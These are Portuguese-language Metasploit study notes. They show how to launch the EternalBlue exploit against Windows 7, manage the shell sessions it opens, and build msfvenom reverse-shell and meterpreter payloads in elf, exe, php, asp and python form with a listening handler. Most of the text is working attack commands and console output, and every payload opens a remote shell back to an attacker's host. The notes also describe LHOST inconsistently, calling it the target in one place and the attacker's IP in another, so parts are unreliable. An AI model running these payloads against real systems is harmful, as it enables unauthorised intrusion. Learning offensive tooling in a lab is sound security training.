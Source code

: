 # Scan e Exploit
1. Você pode pesquisar exploits usando o comando `search`, obter mais informações sobre o exploit usando o comando info e iniciar o exploit usando exploit.  O comando `show payloads` lista outros comandos que podem ser usados com esse exploit específico.
   
```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > show payloads

msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 2
#payload => generic/shell_reverse_tcp

msf6 exploit(windows/smb/ms17_010_eternalblue) > show options 

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.

```

2. Settar o LHOST, que será nosso **alvo** e iniciar o exploit. Nesse exemplo foi usado o *eternalblue* que tem como alvo sistemas *Windows 7*
```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 10.10.186.44
lhost => 10.10.186.44
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit 
```

#### Sessions
Digitando CTRL+Z, podemos deixar a sessão em segundo plano. E digitando `sessions -i` podemos acessar a session anteriormente estabelecida
```shell
C:\Windows\system32>^Z
Background session 1? [y/N]  y

msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions

Active sessions
===============

  Id  Name  Type               Information                                                                       Connection
###############################################################
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions -i 1
[*] Starting interaction with 1...

C:\Windows\system32> #sessão reestabelecida
```

# Msfvenon
O Msfvenom permite a criação de payloads em muitos formatos diferentes (PHP, exe, dll, elf etc.) e para muitos sistemas-alvo diferentes (Apple, Windows, Android, Linux etc.).

```shell
msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php

msfconsole

msf6 > use exploit/multi/handler 
```

Como sempre, será necessário settar o `LHOST` e a `LPORT` para nosso alvo. Por fim, rodar o o exploit

```shell
msf5 exploit(multi/handler) > set lhost 10.0.2.19
lhost => 10.0.2.19

msf6 exploit(multi/handler) > set lport 7777
lport => 7777

msf6 exploit(multi/handler) > run
```

# Outros Payloads
Com base na configuração do sistema de destino (sistema operacional, servidor da Web instalado, interpretador instalado etc.), o msfvenom pode ser usado para criar payloads em quase todos os formatos. Abaixo estão alguns exemplos que você usará com frequência:

> Em todos esses exemplos, *LHOST* será o endereço **IP de sua máquina atacante** e *LPORT* será a **porta na qual seu manipulador escutará**.
#### Formato executável e vinculável do Linux (elf)
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`

O formato .elf é comparável ao formato .exe do Windows. Esses são arquivos executáveis para Linux. No entanto, talvez você ainda precise garantir que eles tenham permissões de execução no computador de destino. Por exemplo, depois de ter o arquivo shell.elf no computador de destino, use o comando chmod +x shell.elf para conceder permissões de execução. Uma vez feito isso, você pode executar esse arquivo digitando ./shell.elf na linha de comando do computador de destino.
#### Windows
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`
#### PHP
`msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`
#### ASP
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp`
#### Python
`msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`
